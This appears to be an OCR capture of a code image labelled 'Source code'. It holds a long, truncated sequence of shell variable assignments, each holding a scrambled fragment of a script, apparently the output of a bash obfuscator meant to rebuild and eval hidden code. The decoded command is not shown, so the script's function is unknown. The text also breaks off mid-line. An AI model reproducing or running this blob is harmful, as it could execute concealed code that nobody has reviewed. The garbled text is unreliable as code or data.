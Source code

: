 ';CPz='q'\'';S';MPBz='ng'\'';';hsCz='z$MX';PJDz='z$Fl';GKCz=';FEz';XiCz='CKz$';VMBz=';Eoz';MLz='V'\'';f';VKCz='EOz'\''';RZz=''\'''\''66';eqBz='='\''gO';ufDz='$eIB';coCz='$jTz';DQDz='XJz$';AjBz=''\'';pS';FCBz=''\''z$V';oCBz=';iS'\''';YQBz='z$sC';jwz='7 '\'';';iOCz=''\'';wL';IrCz='$xVz';lUz=''\'''\''ro';PiCz='z$fN';VYz=''\''dFz';YFBz='$qD'\''';shCz='z$LN';vKCz=';mOB';ydDz='QGBz';uRBz=';mLB';dEDz='gz$t';QHz='A'\'';Q';fSBz='='\''kG';mDCz='e'\'';n';XDCz='BRz'\''';aeDz='AHBz';ZDCz=''\'''\''n'\''';MtCz='Xz$Q';ZLCz=': \'\''';guz='tar'\''';ptCz='PYz$';fUBz='iIz$';XtCz='z$BY';bsCz='Bz$I';bfBz='fRBz';gjDz='$lCB';ETCz=';Oqz';AnDz='z$SR';mjz=''\'';eo';xIDz='z$ok';NmCz='Rz$a';eFDz='rhz$';Ihz=''\''YNz';ghz='lz='\''';owCz='$saz';UCCz=''\'';dU';OCBz=';cwz';nbBz='='\''$u';KHDz='Ljz$';GdDz='$KFB';nQDz='z$ir';IEDz='z$cS';Ez=';FTB';vjz=''\'''\''ct';LxBz='1'\''\'\''';gTDz='z$bu';ETBz=';Umz';YTCz=''\'';Qw';eGDz='iiz$';cBBz='iHz$';MsBz=''\'' eq';EJBz='='\''kF';sdz='UTBz';qfCz='OLz$';EADz='z$wc';sZCz='$HFz';CrCz='z$rV';cHBz=''\''3.t';tcBz='awz=';VECz=''\'';Ra';YpCz='$aUz';QsCz='Cz$A';EuBz=''\'';Kf';oNDz='Cpz$';QRBz='sDz=';ytCz='VYz$';HpCz='Uz$L';EtCz='iXz$';ErCz='z$tV';NmDz='sJBz';lwBz=';ghz';koCz='$pTz';XZDz='z$DB';jkCz='Qz$Y';fVCz='z$Xz';uoDz='wSBz';rNBz=''\''x" ';DFCz=''\'';Vn';OpDz='TTBz';ygDz='$WJB';PYCz='z$aD';XWBz='uBBz';yCDz='Oz$e';WnDz='z$pB';TqBz='lEBz';SjBz=';Clz';sCz='='\'';x';mDz='RBz=';xhBz=''\''nge';ekDz='EPBz';LhCz='z$dM';jPz='z$sP';YIDz='kz$s';AGBz=';PHz';QLCz=''\'';Uh';hFDz='hz$u';NWDz='z$Ix';TyBz='umz=';Vkz='z='\''I';iJBz=''\''To ';WvBz='uNz'\''';LfCz='hKz$';YXBz=';Blz';PGz='0;'\''\';tvBz='='\'']]';tqBz=';wkz';QYCz='z$bD';yNDz='Mpz$';gZz=';JYz';mSBz='ruz=';yGBz=';ELz';Mcz=''\'';Ah';xUz=';QJB';LOz='WQBz';QWBz='='\'' 3';XwBz=';jS'\''';FpDz='HTBz';fIBz='DHz$';siCz='Oz$I';pKz=''\''ter';uJBz='z$HL';udDz='z$TC';UbDz='yz$H';UjDz='eNBz';inz=''\'';Od';Ntz='fdz=';hdDz='z$xF';jJDz='z$Yl';eCBz='Jez=';lPz='$tCz';LYz='dIz=';rJz=';lB'\''';sqCz='z$iV';sSz=' -'\''\';voz=';ckz';yPDz='uqz$';FrCz='z$uV';dhBz='Rz$i';cPz='bJ'\'';';buCz='$hEz';mdz=''\'';Lj';oDDz='Jgz$';wLCz='='\''nL';hcDz='z$YE';NMz=''\''Men';mBBz=';VVz';YNz='='\''BI';EKDz='z$ql';HBBz=';rPB';EIz=''\'';wD';fjBz='Fbz=';AqCz='$wUz';Crz=';Nbz';UZDz='BBz$';SaDz='$ECB';bvCz='Zz$h';jCBz=''\'';TS';JfBz=';lYz';LADz='$Edz';mmBz='om'\'';';pdDz='$HGB';wJBz='tKz$';WeBz='2'\''\'\''';FSBz=''\'';Uq';iZBz='$L'\'';';gbCz='z$AH';BjCz='Oz$P';tBBz=''\'';TG';dnz='\'\'''\''l';HGBz=';SE'\''';tJDz='z$gl';oPBz=''\'';vW';LXz='uLz'\''';rbCz='z$KH';ASCz=''\''NSz';yez='$S'\'';';akz=';tJz';vNBz='z$H'\''';FvCz='WZz$';ZIz='='\''GB';GGDz='$Oiz';ffDz='$LIB';RRCz='H'\'';S';CJCz='ull ';ekz=''\''Iz=';PFz='Suz=';HICz='iJBz';FnDz='xQBz';sACz='nce'\''';gMz='ice'\''';pABz='BOBz';xnz=' '\'';U';oICz='ISz$';LYCz='z$WD';QbBz='gIz'\''';kyBz='L'\'';U';tkBz='kiz=';CLz=''\'';if';EjBz=''\'';fL';ITCz=';ikz';ez=';SGz';OFCz='Oz$z';FlDz='$dPB';NPz='$wD'\''';kjBz='Oz$l';ycCz='Iz$S';fWCz='z$iB';ORDz='z$Js';KrBz=';VSB';qxz=''\'';pd';ZHz=''\'';mB';AUBz='gMBz';vlCz='Dz$G';rdCz='Jz$O';HwCz='z$Oa';eaDz='$KCB';Bnz='$nz$';VuCz='z$qY';AiBz='G'\'';Q';VLDz='$Tbz';vmBz=';xD'\''';ANBz=''\'' $'\''';CtCz='$gXz';kiCz='sJz$';VjDz='$fNB';Mlz='Ukz=';LPBz=''\'';Gi';jTBz='z'\'';G';fdz='ar'\'';';YCBz='Ekz=';idBz='yJ'\'';';trz=';pEz';qJCz=''\'';TT';qHz='='\'';f';iqBz='a12'\''';TbDz='rz$G';RACz='s'\'';L';lMBz='p/c'\''';xZBz=';Goz';JyBz=''\'';hY';kyCz='z$dc';mbCz='z$FH';usBz=''\''aIz';TsCz='Pz$C';SDCz=';BMz';GsCz='Wz$r';KqCz='CBz$';Nlz=''\'' fu';PnCz='gz$a';UDz='VK'\'';';EUCz='='\''UP';ReBz=';tHz';JGBz=';TVz';dQz='NT'\'';';GDCz=''\'';YH';doCz='$kTz';XnBz='08 '\''';fHz='\'\'''\''m';QEz='l'\''\'\''';MACz='mlz=';fZBz='='\''s ';MNz=''\''EUz';eLz=''\''$Az';mUBz='='\''SF';LHDz='dcz$';kWCz='mBz$';xLCz='xTz=';VJDz='z$Ll';acCz='Hz$v';wfDz='hIBz';XcBz=''\'';jB';XQz='AQBz';qDz='"Was';mCCz=''\''.'\''\';KbBz='Qez=';LACz='='\''$r';bQCz='oKz=';yVCz='z$yz';iMz='='\'';u';JXCz='PCz$';pmDz='$GRB';cZz=''\'''\'' "';gfCz='FLz$';SVDz='z$Nw';AXCz='FCz$';pvz='ffz=';KkDz='$JLB';WgDz='$KJB';mrCz='z$aW';LlBz='vlz=';BEDz='gz$j';XSDz='z$St';Zsz='='\''('\''';xGDz='Ajz$';seBz='='\''fi';XfCz='vKz$';nxCz='$mbz';esBz=''\''qIz';jyBz='/ev'\''';PCBz='='\''wE';RZBz='IE'\'';';KGCz='da'\''\';RpCz='$TUz';UPCz=';RCB';cMCz=''\'''\''Fo';eSz='='\''Qz';UXDz='z$Py';muCz='$FZz';BEBz=''\''$mO';Kiz=';aIz';KUz=''\''jGz';ubBz='ta'\'';';LqCz='GVz$';cDDz='$xfz';mRBz='$'\'';e';wtz='$qF'\''';unCz='Tz$F';IHz=''\''='\''\';ouCz='$HZz';JKz='Yz='\''';hwBz=''\'';st';XGCz='$kF'\''';bCDz='Ffz$';DxBz=';pTz';EICz=''\'';31';NhBz=''\''$aQ';TuBz=';kBB';hlDz='z$cA';Maz='KO'\'';';FSDz='z$At';ADDz='fz$W';HBCz='to'\''\';FUDz='z$Av';bfCz='ALz$';rLCz='NNz=';Xpz='='\'';R';ESBz='Gz$p';VdBz=';KBB';Rnz='ouTu';hSCz=';Diz';rtBz=';fqz';jZCz='z$xE';RyCz='Ncz$';UXz=''\''Hop';dDDz='$yfz';FtBz=':'\'';i';iZz='J'\'';o';KLCz='Mrz=';dCDz='Gfz$';xUBz='/r'\'';';eQCz='Iz$U';LfDz='$dyz';Qvz='Da'\''\';FLBz=';lNB';QmCz='z$dR';XRCz=';xG'\''';jZDz='MBBz';Gaz='YSz=';qYBz=''\''pQz';tYDz='xyz$';exCz='z$db';HPDz='$ELz';UBz=''\''sBz';ArCz='z$pV';AVDz='z$uv';pZBz='k'\'';i';MJz=''\''P'\''\';XACz='yNz=';PpCz='$RUz';NnBz=';qpz';KoBz=''\'''\''ch';Dfz=';IOB';WhDz='z$pK';YsCz='Xz$G';YgDz='yz$L';PtBz='cOBz';DABz=';TKB';Fxz='$gF'\''';RlDz='z$wP';UdBz='z$Y'\''';cbBz=''\''COz';quBz='rgz=';Gwz='jNBz';QXz=';jI'\''';sTDz='z$nu';ciDz='wz$Z';ZMz=';wIB';DiCz='z$UN';PPDz='$Rqz';yqBz='or'\''\';MOCz='o '\''\';Sz=''\''QBz';Jvz='tMz'\''';uuBz='AHz=';rHDz='njz$';hIDz='Vz$n';rsBz=''\'';fC';OQDz='z$Jr';qVz='q'\'';b';DyBz=''\'''\''ha';UjBz='R'\'';P';FVz=''\'';RL';peCz='z$PK';tIz='tz='\''';ZqCz='Vz$R';TYBz='='\'' s';Vhz=';EMz';xgCz='z$SM';sSBz='s, '\''';ckDz='$CPB';yHz='f2'\''\';wCBz='Xrz=';Obz='='\''oG';bgDz='z$OJ';Waz=''\'''\'';c';fpBz='='\'';N';wnBz='n
